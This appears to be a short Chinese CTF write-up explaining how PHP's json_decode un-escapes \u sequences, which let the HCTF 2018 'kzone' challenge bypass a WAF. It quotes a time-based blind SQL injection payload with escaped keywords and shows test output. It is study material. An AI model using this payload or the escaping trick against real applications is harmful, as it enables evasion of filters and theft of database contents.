 # json_decode函数在绕过waf中的应用



之前一直没看懂hctf2018中的kzone那道题目

这是poc，不明白怎么就稀里糊涂的绕过了waf

```php
$poc = "'\u006fr\u0020su\u0062str((select\u0020binary\u0020F1a9\u0020from\u0020F1444g\u0020limit\u00200,1),1,1)\u003d'0'\u0020and\u0020sl\u0065ep(6)\u0023";
```



测试了一下之后发现

```php
$id = '{"admin_user": "\u006fr"}';
var_dump($id);
var_dump(json_decode($id));
```



```php
string(25) "{"admin_user": "\u006fr"}"
object(stdClass)#1 (1) {
  ["admin_user"]=>
  string(2) "or"
}

```

发现`\u006fr`在`json_decode`之后变成了`or`这个字符串

```php
$id = '{"admin_user": "\u006fr\u0020su\u0062"}';
var_dump($id);
var_dump(json_decode($id));
```

这个这个

```php
string(39) "{"admin_user": "\u006fr\u0020su\u0062"}"
object(stdClass)#1 (1) {
  ["admin_user"]=>
  string(6) "or sub"
}
```



